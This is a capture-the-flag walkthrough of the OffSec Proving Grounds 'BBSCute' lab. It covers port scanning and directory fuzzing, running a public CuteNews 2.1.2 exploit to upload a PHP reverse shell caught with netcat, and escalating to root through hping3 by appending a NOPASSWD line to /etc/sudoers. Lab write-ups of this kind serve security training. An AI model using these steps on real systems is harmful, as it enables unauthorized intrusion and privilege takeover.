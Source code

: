 ```yaml
---
description: This a free lab found on offsec’s proving ground (play)
---
```


# BBCute

### Nmap

```shell
nmap -sV -sC -T4 -p- -oN bbscute -oX bbscute.xml 192.168.228.128
```

```
Nmap scan report for 192.168.228.128
Host is up (0.19s latency).
Not shown: 63365 closed tcp ports (conn-refused), 2165 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
995/tcp open  ssl/pop3 Courier pop3d
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

<figure><img src="../.gitbook/assets/nmap.png" alt=""><figcaption><p>nmap</p></figcaption></figure>

### port 80 enumeration

<figure><img src="../.gitbook/assets/80.png" alt=""><figcaption><p>port 80</p></figcaption></figure>

since we have our website running on port 80, let try to find the directories and files that might be present

```shell
feroxbuster -u http://192.168.228.128/ -x html,php,txt,js,asp
```

with feroxbuster we find some files and directories&#x20;

<figure><img src="../.gitbook/assets/fero.png" alt=""><figcaption><p>feroxbuster</p></figcaption></figure>

The process was taking a bit long i decide to use another tool for for file discovery

```shell
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "http://192.168.228.128/FUZZ"
```

With <mark style="background-color:yellow;">wfuzz</mark> i decided to be specific on file where i used different flag to get my data fast and also i used a different dictionary

```
-c  - is to give colour in our output
-z - is used to provide our payload dictionary which means i have to provide the word FUZZ where i want to search for my files
--hc - is used not to display the set response codes.
```

<figure><img src="../.gitbook/assets/wfuzz.png" alt=""><figcaption><p>wfuzz.png</p></figcaption></figure>

Time to test the files received, i started with the <mark style="background-color:yellow;">search.php</mark> file which gave me some input form where i spent some time trying to inject the sql payloads but none was working and it was a rabbit hole for me. then i tried the <mark style="background-color:yellow;">index.php</mark> which gave me a login form

<figure><img src="../.gitbook/assets/image0002.png" alt=""><figcaption></figcaption></figure>

And when you see down it has the text "powered by Cutenews 2.1.2" and my first attempt on this is to search in my system if their is any exploit released .

```shell
searchsploit CuteNews 2.1.2
```

<figure><img src="../.gitbook/assets/meta1.png" alt=""><figcaption></figcaption></figure>

Now since one of the exploits brought back metasploit, i powered up my metasploit to use it but unfortunately its isn't installed within, you have to download the ruby file and put it in the plugins location of metasploit (/usr/share/metasploit-framework/plugin)&#x20;

<figure><img src="../.gitbook/assets/meta2.png" alt=""><figcaption></figcaption></figure>

Now is tried loading this plugin but it failed

&#x20;

<figure><img src="../.gitbook/assets/meta3.png" alt=""><figcaption></figcaption></figure>

So i decided to use use another Exploit listed with is **48800.py** , now i tried to read this to know which python version was used and more info about it.

<figure><img src="../.gitbook/assets/exdb.png" alt=""><figcaption></figcaption></figure>

```shell
searchsploit -m 48800.py
```

Now downloading this file does not not start right away because you have to change some data, this took me long and i got to know it after doing some google searching

open the file with best text editor and find every word in your code which is **Cutenews** and remove it from your code, why because on our website we don't have the **cutenews** folder, we start directly on our root (/).

<figure><img src="../.gitbook/assets/ed.png" alt=""><figcaption></figcaption></figure>

After Editing your script run it and provide the website url

<figure><img src="../.gitbook/assets/python.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/p2.png" alt=""><figcaption></figcaption></figure>

Now when you script is successful you will have to upload your php reverse shell file to the server then set Ncat to listen to the port you have set in your file.

```shell
nc -lvnp 4444
```

<figure><img src="../.gitbook/assets/nc.png" alt=""><figcaption></figcaption></figure>

use (**/bin/bash -i** or **python3 -c 'import pty;pty.spawn("/bin/bash")'** ) to get a interactive shell.

### privilege escalation

Running **sudo -l** we see a service running as root with no password

<figure><img src="../.gitbook/assets/priv.png" alt=""><figcaption></figcaption></figure>

i tried **sudo /usr/sbin/hping3** but it was asking for a password so i just wrote **hping3** in my terminal and i got another shell for **hping3**. Since this program runs as root i used to to set other permissions to our user www-data so that we can get the root account.

```shell
echo "www-data ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
```

<figure><img src="../.gitbook/assets/root (1).png" alt=""><figcaption></figcaption></figure>

first flag&#x20;

<figure><img src="../.gitbook/assets/Screenshot_2024-05-05_22-15-29.png" alt=""><figcaption></figcaption></figure>

&#x20;second flag is here

<figure><img src="../.gitbook/assets/root2.png" alt=""><figcaption></figcaption></figure>
